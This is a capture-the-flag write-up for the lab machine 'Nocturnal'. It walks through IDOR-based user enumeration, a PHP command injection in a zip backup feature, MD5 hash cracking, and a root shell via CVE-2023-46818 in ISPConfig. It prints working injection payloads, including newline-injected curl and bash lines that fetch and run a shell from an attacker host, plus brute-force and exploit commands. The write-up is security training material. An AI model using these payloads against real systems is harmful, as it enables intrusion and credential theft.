




# Nocturnal



Nocturnal is a medium-difficulty Linux machine demonstrating an IDOR vulnerability in a PHP web application, allowing access to other users&#039; uploaded files. Credentials are retrieved to log in to the admin panel, where the application&#039;s source code is accessed. A command injection vulnerability is identified, providing a reverse shell as the www-data user. Password hashes are extracted from a SQLite database and cracked to obtain SSH access as the tobias user. Exploiting CVE-2023-46818 in the ISPConfig application grants remote command execution, leading to privilege escalation to the root user.

## Reconnaissance

```text
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 20:26:88:70:08:51:ee:de:3a:a6:20:41:87:96:25:17 (RSA)
|   256 4f:80:05:33:a6:d4:22:64:e9:ed:14:e3:12:bc:96:f1 (ECDSA)
|_  256 d9:88:1f:68:43:8e:d4:2a:52:fc:f0:66:d4:b9:ee:6b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://nocturnal.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Nmap pointed to `nocturnal.htb` on port 80, so I added it to my hosts file before moving on to the web application.

## Initial Access

Visiting the site shows a file-sharing service with a registration page and an upload form. Uploading a PHP file is blocked, since the application only accepts office and document formats such as PDF, DOC, DOCX, XLS, and ODT.



Even though the upload filter is restrictive, almost any valid extension can still be used to place a file on the server. Once a file is uploaded, the service generates a link under “Your Files” that points to `view.php` with `username` and `file` parameters. If I request a file that does not exist, the application leaks the list of files tied to that username.

That behavior suggests I may be able to enumerate other users by guessing usernames. Using `ffuf`, I brute-forced the `username` parameter and found three valid accounts: `admin`, `tobias`, and `amanda`.

```bash
ffuf -H 'Cookie: PHPSESSID=oaq1ism6btk80da26l566bpg6m' \
     -u 'http://nocturnal.htb/view.php?username=FUZZ&file=doesnotexist.pdf' \
     -w /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt \
     -fs 2985
```

Of the three, only `amanda` had an uploaded file. The file was named `privacy.odt`, and opening it revealed a message from IT with a temporary password: `arHkG7HAI68X8s1J`.

That password did not work over SSH, but it did allow me to log in to the web application as `amanda`. Since `amanda` is part of the admin group, I also gained access to the admin panel.



## Application Review

Inside the admin area, I could browse the source of the PHP files and use the backup feature. Looking at `admin.php` showed that the backup action accepts the POST parameters `backup` and `password`. The password value is checked against a small blacklist, but after that it is inserted directly into a Bash command.

```php
// --- SNIP ---

if (isset($_POST['backup']) && !empty($_POST['password'])) {
    $password = cleanEntry($_POST['password']);
    $backupFile = "backups/backup_" . date('Y-m-d') . ".zip";

    if ($password === false) {
        echo "<div class='error-message'>Error: Try another password.</div>";
    } else {
        $logFile = '/tmp/backup_' . uniqid() . '.log';
       
        $command = "zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile . " 2>&1 &";

        // --- SNIP ---
    }
}
```

The login source in `login.php` also revealed the SQLite database path.

```php
$db = new SQLite3('../nocturnal_database/nocturnal_database.db');
```

That tells me the database is nearby and probably reachable through the backup logic if I can influence the command line safely.

## Backup Abuse

Although the password field filters several dangerous characters, the command construction is still weak enough to abuse. By using tabs instead of spaces, I can inject extra arguments into the `zip` command and include files I should not normally be able to access.

I used that behavior to create a backup containing the database itself, with `test` as the archive password. Another option would have been newline injection to run arbitrary shell commands, but the archive trick was enough to recover the data I needed.

```http
POST /admin.php?view=admin.php HTTP/1.1
Host: nocturnal.htb
Content-Type: application/x-www-form-urlencoded

password=test./backups/deadbeef.zip../nocturnal_database/nocturnal_database.db%23&backup=
```

also we can Instead of injecting parameters into the ZIP command, it’s also possible to run additional Bash commands by using a newline (%0a). command injection 

```bash
password=%0acurl%0ahttp://attacker-ip/shell%0a-o%0a/tmp/shell#&backup=
```
```bash
password=%0abash%0a/tmp/shell#&backup=
```
After downloading the generated archive and extracting it, I opened the SQLite database and dumped the user table.

```bash
sqlite3 nocturnal_database.db
```

```sql
.tables
uploads  users

select * from users;
1|admin|d725aeba143f575736b07e045d8ceebb
2|amanda|df8b20aa0c935023f99ea58358fb63c4
4|tobias|55c82b1ccd55ab219b3b109b07d5061d
6|deadbeef|cd1b8ecf103743a98958211a11e33b71
```

Cracking the MD5 hash for `tobias` gave me `slowmotionapocalypse`, which worked over SSH and gave me the first flag

## Privilege Escalation

Once on the box as `tobias`, I started checking the local environment for anything interesting. Under `/var/www`, I found references to ISPConfig, and process inspection showed a PHP server listening on `127.0.0.1:8080`.

```bash
ls -la /var/www/
ps auxwww
```

I forwarded the port over SSH and opened the local ISPConfig instance in my browser. The password for `tobias` also worked for the `admin` account, which gave me access to the dashboard.



The help page showed ISPConfig version `3.2.10p1`, which matches CVE-2023-46818 https://github.com/advisories/GHSA-qfc7-gwmc-9vvr . That issue allows PHP code injection through the language editor when the right admin-level conditions are met, and a public exploit was available https://github.com/bipbopbup/CVE-2023-46818-python-exploit	.

Running the proof of concept with the target URL and admin credentials dropped me into a shell as root.

```bash
python3 exploit.py http://127.0.0.1:8000 admin slowmotionapocalypse
```

```text
[+] Target URL: http://127.0.0.1:8000/
[+] Logging in with username 'admin' and password 'slowmotionapocalypse'
[+] Injecting shell
[+] Launching shell

ispconfig-shell# whoami
root
```

That completed the machine and gave me the root flag.

## Attack Path

- Scan the host and identify SSH and HTTP.
- Enumerate the web app and discover the file upload service.
- Abuse the username-based file listing to find valid accounts.
- Extract the temporary password from `privacy.odt`.
- Log in as `amanda` and access the admin panel.
- Review the source code and identify weak command handling in the backup feature.
- Abuse the backup command to include the SQLite database.
- Dump user hashes from the database.
- Crack the MD5 hash for `tobias`.
- SSH in as `tobias` and read the user flag.
- Enumerate the local environment and find ISPConfig on localhost.
- Use the ISPConfig admin credentials to reach the vulnerable panel.
- Exploit CVE-2023-46818 to get a root shell.
- Read the root flag.
